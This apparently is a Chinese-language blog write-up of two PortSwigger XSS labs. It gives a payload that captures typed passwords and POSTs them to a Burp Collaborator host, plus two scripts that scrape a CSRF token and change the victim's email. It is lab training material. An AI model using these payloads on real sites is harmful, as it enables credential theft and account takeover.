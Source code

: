**POST的方式

## Lab: Exploiting cross-site scripting to capture passwords

```html
<input name=username id=username>
<input type=password name=password onchange="if(this.value.length)fetch('https://BURP-COLLABORATOR-SUBDOMAIN',{
method:'POST',
mode: 'no-cors',
body:username.value+':'+this.value
});">
```

HTML注入🤔以前没看过。不过也确实是一种拿密码的攻击方式。

## Lab: [Exploiting XSS](https://portswigger.net/web-security/cross-site-scripting/exploiting) to perform CSRF

利用 XSS 到 CSRF。因为有 csrf token 所以要特别处理

```html
<script>
(async() => {
    var email = 'gtg@thebearhimself.rest';
	var csrf = await fetch('/my-account')
		.then((response)=>{return response.text();})
		.then((html)=>{return html.match(/(?<=value\=")[A-Za-z0-9]+(?=")/)[0];});
	fetch('/my-account/change-email',{
    	method: 'POST',
		mode: 'no-cors',
    	headers: {
    		'Content-Type': 'application/x-www-form-urlencoded'
    	},
		body: `email=${email}&csrf=${csrf}`
	})
})();
</script>
```

~~tbh 因为console和page的异步差异卡了许久~~

题解给的用的是古老的`XMLHttpRequest`api：

```html
<script>
var req = new XMLHttpRequest();
req.onload = handleResponse;
req.open('get','/my-account',true);
req.send();
function handleResponse() {
    var token = this.responseText.match(/name="csrf" value="(\w+)"/)[1];
    var changeReq = new XMLHttpRequest();
    changeReq.open('post', '/my-account/change-email', true);
    changeReq.send('csrf='+token+'&email=test@test.com')
};
</script>
```
